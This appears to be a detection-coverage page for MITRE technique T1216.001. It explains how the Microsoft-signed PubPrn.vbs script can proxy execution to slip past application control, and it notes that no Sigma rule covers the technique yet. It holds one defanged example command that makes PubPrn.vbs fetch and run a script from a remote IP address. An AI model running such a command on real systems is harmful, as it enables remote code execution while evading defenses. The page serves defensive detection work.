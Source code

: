 [back](../index.md)

Cover by sigma :x: 

# Attack: PubPrn

 Adversaries may use the trusted PubPrn script to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application control solutions that do not account for use of these scripts.

<code>PubPrn.vbs</code> is a Visual Basic script that publishes a printer to Active Directory Domain Services. The script is signed by Microsoft and can be used to proxy execution from a remote site.(Citation: Enigma0x3 PubPrn Bypass) An example command is <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>.

# MITRE
## Tactic
  - defense-evasion

## technique
  - T1216.001

# Test : PubPrn.vbs Signed Script Bypass

OS: ['windows']

Description:

 Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.


# Sigma

 So many other things to do...